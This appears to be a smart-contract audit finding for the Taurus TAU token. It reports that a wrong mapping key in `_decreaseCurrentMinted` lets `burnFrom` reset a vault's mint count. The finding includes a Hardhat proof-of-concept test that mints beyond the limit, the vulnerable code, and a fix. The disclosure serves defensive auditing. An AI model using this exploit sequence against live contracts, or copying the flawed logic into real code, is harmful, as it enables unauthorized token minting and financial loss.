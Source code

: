 ### ` _decreaseCurrentMinted` is using the wrong parameter, which will practically break the whole protocol

**Context**: [TAU.sol](https://github.com/sherlock-audit/2023-03-taurus-bytes032/blob/60490309c28121fc239cf4ba42546fc21da6054c/taurus-contracts/contracts/TAU.sol###L58-L90)

**Impact:**
Vaults can mint unlimited amount of tokens

**Description:**

`_decreaseCurrentMinted` is using the wrong parameter, which will practically break the whole protocol

The function is used in both burn and burnFrom. If the accountMinted is more than the amount, then it updates `currentMinted[msg.sender]`. While that works for `burn`, it doesnt work for `burnFrom`, which can lead to catastrophic consequences, because burnFrom can be used to reset the mintLimit and technically mint more tokens than possible. I've proved that by slightly modifying your test suite.

https://github.com/sherlock-audit/2023-03-taurus-bytes032/blob/60490309c28121fc239cf4ba42546fc21da6054c/taurus-contracts/test-hh/00_TAU.ts###L81-L102

```typescript
    it("Should allow vaults to mint up to mintLimit", async () => {
      await tau.connect(vaultPlaceholder).mint(vaultPlaceholder.address, 1000);
      expect((await tau.balanceOf(vaultPlaceholder.address))).to.equal(1000);
      const preAttackerBalance = await tau.balanceOf(attacker.address);
      await tau.connect(attacker).mint(attacker.address, 1);
      expect((await tau.balanceOf(attacker.address)).sub(preAttackerBalance)).to.equal(1);
      
      await tau.connect(attacker).approve(vaultPlaceholder.address, 1);
      expect(await tau.allowance(attacker.address, vaultPlaceholder.address)).to.equal(1);
      
      expect(await tau.currentMinted(vaultPlaceholder.address)).to.equal(1000);
      expect(await tau.currentMinted(attacker.address)).to.equal(1);
      
      await tau.connect(vaultPlaceholder).burnFrom(attacker.address, 1);
      
      expect(await tau.currentMinted(vaultPlaceholder.address)).to.equal(0);
      expect(await tau.currentMinted(attacker.address)).to.equal(1);

      await tau.connect(vaultPlaceholder).mint(vaultPlaceholder.address, 1000);
      expect((await tau.balanceOf(vaultPlaceholder.address))).to.equal(2000);
    });

```

Last, but not least the burnFrom function is used in several places through the code, meaning all of these are impacted by the vulnerability.

https://github.com/sherlock-audit/2023-03-taurus-bytes032/blob/60490309c28121fc239cf4ba42546fc21da6054c/taurus-contracts/contracts/Vault/BaseVault.sol###L303
https://github.com/sherlock-audit/2023-03-taurus-bytes032/blob/60490309c28121fc239cf4ba42546fc21da6054c/taurus-contracts/contracts/Vault/BaseVault.sol###L380
https://github.com/sherlock-audit/2023-03-taurus-bytes032/blob/60490309c28121fc239cf4ba42546fc21da6054c/taurus-contracts/contracts/Vault/TauDripFeed.sol###L56


```solidity
    function burn(uint256 amount) public virtual override {
        address account = _msgSender();
        _burn(account, amount);
        _decreaseCurrentMinted(account, amount);
    }

    /**
     * @dev Destroys `amount` tokens from `account`, deducting from the caller's allowance. Also decreases the burner's currentMinted amount if the burner is a vault.
     *
     * See {ERC20-_burn} and {ERC20-allowance}.
     *
     * Requirements:
     *
     * - the caller must have allowance for ``accounts``'s tokens of at least `amount`.
     */
    function burnFrom(address account, uint256 amount) public virtual override {
        // 1. burn 1 token from another vault
        super.burnFrom(account, amount);
        _decreaseCurrentMinted(account, amount);
    }

    function _decreaseCurrentMinted(address account, uint256 amount) internal virtual {
        // If the burner is a vault, subtract burnt TAU from its currentMinted.
        // This has a few highly unimportant edge cases which can generally be rectified by increasing the relevant vault's mintLimit.
        // 2. another vault balance >= amount
        // 3. currentMinter[msg.sender] = another vault balance - amount;
        uint256 accountMinted = currentMinted[account];
        if (accountMinted >= amount) {
            currentMinted[msg.sender] = accountMinted - amount;
        }
    }
```


**Recommendation:**

Change the code in the following way:

```diff
- currentMinted[msg.sender];
+ currentMinted[account];
```
